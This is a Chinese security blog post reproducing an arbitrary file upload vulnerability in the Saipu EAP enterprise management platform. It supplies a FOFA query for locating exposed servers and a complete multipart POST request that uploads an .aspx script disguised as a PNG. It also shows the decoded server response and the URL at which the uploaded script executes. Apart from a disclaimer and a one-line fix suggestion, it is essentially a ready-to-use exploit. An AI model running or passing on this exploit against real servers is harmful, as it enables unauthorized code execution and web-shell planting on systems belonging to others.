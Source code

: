 #  【漏洞复现】赛普EAP企业适配管理平台Upload任意文件上传漏洞   
原创 清风  白帽攻防   2024-12-06 01:09  
  
## 免责声明：请勿使用本文中提到的技术进行非法测试或行为。使用本文中提供的信息或工具所造成的任何后果和损失由使用者自行承担，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
简介  
  
  
赛普EAP企业适配管理平台是为房地产企业量身定制的数字化管理系统，旨在优化业务流程、提升管理效率并改善客户体验。该系统整合了项目管理、销售管理、客户关系管理、财务管理和报表分析等多个功能模块，能够满足企业各个层级和不同部门的管理需求。通过灵活的配置机制，平台可以根据企业的具体需求进行定制化调整，从而实现与企业业务的高度契合。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0eNwBXo1YMdfJgMnngrrVVl4wgcibhf7rzIc03WPLJGfNibwAAb6ETiaMY0tmk5VI6Hofok86ZtSBBeQ/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞描述  
  
  
  
赛普EAP企业适配管理平台的Upload接口存在任意文件上传漏洞  
fofa语法```
body="IDWebSoft/"
```  
漏洞复现```
POST /IDWebSoft/Common/Handler/Upload.aspx HTTP/1.1
Host: IP
Priority: u=0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: multipart/form-data; boundary=---------------------------328367279028471380642525145085
Accept: */*
Content-Length: 251
-----------------------------328367279028471380642525145085
Content-Disposition: form-data; name="Filedata"; filename="222.aspx"
Content-Type: image/png
<% response.write("222")%>
-----------------------------328367279028471380642525145085--
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0eNwBXo1YMdfJgMnngrrVVlRY5toLRDWpN2bCKJ2ZSoFHZ0QwEfR7Y7XdfX0RmQ5p1OBghLznEKKw/640?wx_fmt=png&from=appmsg "")  
```
%7b%22name%22%3a%22222.aspx%22%2c%22path%22%3a%22%2fAccessary%2f2024%2f12%2f8861daf2-8569-4f07-8af7-81f7ed18dc6c.aspx%22%7d
url解码为{"name":"222.aspx","path":"/Accessary/2024/12/8861daf2-8569-4f07-8af7-81f7ed18dc6c.aspx"}
访问上传地址即可  http://IP/IDWebSoft/Accessary/2024/12/8861daf2-8569-4f07-8af7-81f7ed18dc6c.aspx
```  
修复建议  
限制文件类型  
  
  
  
  
  
  
  
  
网安交流群  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/yu6trpdUX0efFOzibVic3qjn100tFgpUIh7ib8g9cKajewKFM5kXP350q21SCLvlgO6yx1tlia8VYxI4j3cv57FqFg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
